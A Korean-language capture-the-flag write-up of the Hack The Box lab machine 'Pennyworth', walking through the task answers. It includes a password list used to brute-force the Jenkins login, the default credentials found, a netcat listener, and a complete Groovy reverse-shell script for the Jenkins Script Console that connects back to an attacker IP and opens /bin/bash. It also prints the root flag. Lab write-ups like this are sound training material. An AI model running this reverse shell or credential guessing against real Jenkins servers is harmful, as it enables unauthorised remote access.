








<div class="notion-page" markdown="1">

해당 문제는 HTB에서 라이트업 공개가 가능한 문제이므로 포스팅 합니다.

<div class="notion-blank"></div>

#### 문제 개요 
{: id="문제-개요"}

Pennyworth는 Jenkins의 취약한 인증 정보(Weak Credentials)와 원격 명령 실행(Remote Command Execution)을 활용하는 매우 쉬운 난이도의 Linux 머신입니다.

기본 인증 정보(Default Credentials)를 사용하여 Jenkins의 관리자 권한을 획득할 수 있으며, 이후 스크립트 콘솔(Script Console)을 활용해 Groovy 코드를 실행하고 리버스 셸(Reverse Shell)을 획득할 수 있습니다.

<div class="notion-blank"></div>

<div class="notion-blank"></div>

### TASK1
{: id="task1"}

> What does the acronym CVE stand for?

<code>Common Vulnerabilities and Exposures</code>

<div class="notion-blank"></div>

<div class="notion-blank"></div>

### TASK2
{: id="task2"}

> What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for?

<code>Confidentiality, Integrity, Availability</code>

<div class="notion-blank"></div>

<div class="notion-blank"></div>

### TASK3
{: id="task3"}

> What is the version of the service running on port 8080?

```plaintext
sudo nmap -sV -sS -p 8080 10.129.61.206
```

{: w="1006" h="130" }

<code>Jetty 9.4.39.v20210325</code>

<div class="notion-blank"></div>

<div class="notion-blank"></div>

### TASK4
{: id="task4"}

> What version of Jenkins is running on the target?

사이트에 접속해서 응답을 보면 다음과 같은 헤더가 옴 

{: w="953" h="293" }

<code>Jenkins 2.289.1</code>

<div class="notion-blank"></div>

<div class="notion-blank"></div>

### TASK5 
{: id="task5"}

> What type of script is accepted as input on the Jenkins Script Console?

<code>Groovy</code>

<div class="notion-blank"></div>

<div class="notion-blank"></div>

### TASK6
{: id="task6"}

> What is the path of the Jenkins script console?

젠킨스 스크립트 콘솔에 접근할 수 있는 기본 경로는 /script 이다. 

<code>/script</code>

<div class="notion-blank"></div>

<div class="notion-blank"></div>

### TASK7
{: id="task7"}

> What is a different command than <code>ip a</code> we could use to display our network interfaces&#x27; information on Linux?

<code>ifconfig</code>

<div class="notion-blank"></div>

<div class="notion-blank"></div>

### TASK8
{: id="task8"}

> What switch should we use with netcat for it to use UDP transport mode?

<code>-u</code>

<div class="notion-blank"></div>

<div class="notion-blank"></div>

### TASK9
{: id="task9"}

> What is the term used to describe making a target host initiate a connection back to the attacker host and then accepting commands and executing them?

<code>reverse shell</code>

<div class="notion-blank"></div>

<div class="notion-blank"></div>

### TASK10
{: id="task10"}

> Submit the flag located in root&#x27;s home directory.

문제 설명에서 취약한 인증 정보라고 했으니 브루트포싱을 해보자. 

```plaintext
admin
administrator
root

----

123456
admin
12345678
123456789
12345
password
Aa123456
1234567890
Pass@123
admin123
1234567
123123
111111
12345678910
P@ssw0rd
Password
Aa@123456
admintelecom
Admin@123
112233
qwerty
1234
abc123
letmein
welcome
admin@123
pass1234
qwer1234
1q2w3e4r
1q2w3e4r!

```

{: w="2609" h="1241" }

{: w="2516" h="429" }

이 조합만 로그인 실패로 리다이렉션 되지 않고 로그인이 성공한다. root : password

{: w="2657" h="1477" }

스크립트 콘솔 접속이 가능하고 우리 IP를 사용하여 reverse shell을 만들어보자. 

{: w="1601" h="262" }

현재 우리 공인 IP는 10.10.15.216이다. 

```plaintext
nc -lvnp 10000
```

<div class="notion-bookmark-wrap"><a class="notion-bookmark" href="https://github.com/Brzozova/reverse-shell-via-Jenkins" target="_blank" rel="noopener"><div class="notion-bookmark-text"><div class="notion-bookmark-title">GitHub - Brzozova/reverse-shell-via-Jenkins: Gain Windows initial shell using Jenkins.</div><div class="notion-bookmark-desc">Gain Windows initial shell using Jenkins. Contribute to Brzozova/reverse-shell-via-Jenkins development by creating an account on GitHub.</div><div class="notion-bookmark-url"><span class="notion-bookmark-icon" style="background-image:url('/assets/img/notion/420eaafee12e8093bb40f425f7e92517/fluidicon.png')"></span><span>https://github.com/Brzozova/reverse-shell-via-Jenkins</span></div></div><div class="notion-bookmark-cover" style="background-image:url('/assets/img/notion/420eaafee12e8093bb40f425f7e92517/reverse-shell-via-Jenkins.png')"></div></a></div>

여기에 나온것 처럼 해당 스크립트를 활용하여 진행 

```plaintext
Thread.start {
String host="10.10.15.216";
int port=10000;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
}
```

{: w="1634" h="894" }

{: w="732" h="279" }

<code>9cdfb439c7876e703e307864c9167a15</code>

<div class="notion-blank"></div>

<div class="notion-blank"></div>

</div>
